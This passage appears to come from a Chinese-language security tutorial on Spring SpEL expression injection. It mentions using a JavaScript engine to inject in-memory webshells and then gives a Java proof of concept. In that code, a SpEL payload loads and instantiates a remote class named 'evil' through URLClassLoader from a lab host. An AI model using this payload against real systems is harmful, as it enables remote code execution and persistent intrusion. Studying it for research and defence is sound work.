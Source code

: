 ![image.png](assets/1698895942-31d43751b572139dc76f7df8ad263f3c.png)  
原来直接 new 就可以了，我们 JavaScriptengine 玩家真的是太有操作了。  
不过在这里还是得多一嘴的，其实 JavaScriptengine 已经可以做很多事情了，比如注入内存马之类的。Js 代码是很灵活的。所以需要好好利用。

# 三、RCE 飞雷神二段

纯度秘典第二页，用远程类加载进行 RCE。

## UrlClassloader

这个方法就是通过远程类加载。代码如下

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
